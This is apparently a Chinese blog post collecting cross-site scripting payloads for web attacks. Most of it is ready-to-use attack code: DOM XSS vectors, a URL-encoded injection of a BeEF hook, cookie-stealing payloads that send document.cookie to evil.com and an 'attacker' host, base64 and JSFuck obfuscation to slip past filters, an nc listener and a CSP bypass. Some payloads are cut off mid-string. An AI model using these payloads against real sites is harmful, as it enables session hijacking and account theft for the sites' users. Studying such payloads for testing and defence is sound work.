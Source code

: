 ```yaml
---
layout: post
title:  XSS-Payload+姿势
noToc: true
date:   2018-12-18 09:30:00 +0800
tags: WEB安全 XSS
cover: '../assets/oauth.png'
---
```

### XSS-Payload+姿势

**0x1:XSS**

```html
btoa('<script>alert("xss")</script>')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4="
btoa('<script>alert("xss")</script>1')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4x"
```

**0x2:基于POST的XSS**
如果遇到无法将基于POST的XSS转换为GET请求的情况(可能目标服务器上禁用了GET请求)，试试CSRF。

**0x3:DOM XSS**

```html
<target.com>/#<img/src/onerror=alert("XSS")>
beef的hook，urlencode

<target.com>/#img/src/onerror=$("body").append(decodeURIComponent('%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%3a%2f%2f%3c%65%76%69%6c%20%69%70%3e%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%3e%3c%2f%73%63%72%69%70%74%3e'))>
#<img/src="1"/onerror=alert(1)>
#><img src=x onerror=prompt(1);>
```

**0x5:偷Cookie**

```html
<img/src/onerror=document.location="http://evil.com:8090/cookiez.php?c="+document.cookie>
Blacklist bypass:
```

**0x6:过滤了`//,:,",<`和`>`**

```php+HTML
btoa('document.location="http://evil.com:8090/r.php?c="+document.cookie')
payload:

eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9ldmlsLmNvbTo4MDkwL3IucGhwP2M9Iitkb2N1bWVudC5jb29raW
```

**0x7:另外一个**：

```html
<script>new Image().src="http://evil.com:8090/b.php?"+document.cookie;</script>
比较不错的一个payload：

<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

**0x8:比较不错的一个payload**：

```
<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

nc 监听：

nc -lvp 8090

**0x9:常用的payload**

```html
svg/onload'-alert(1)-'
<details/open/ontoggle="a=eval,b=alert,c=b`1`,a`b`">
eval(atob('YWxlcnQoMSk='))
<iMg SrC=x OnErRoR=alert(1)>
<div onmouseover="alert('XSS');">
</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>
x@x.com<--`<img/src=` onerror=alert(1)> --!>
""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()
oNcliCk=alert(1)%20)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>%5Cx3csVg/<img/src/o
CSP BYPASS
script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

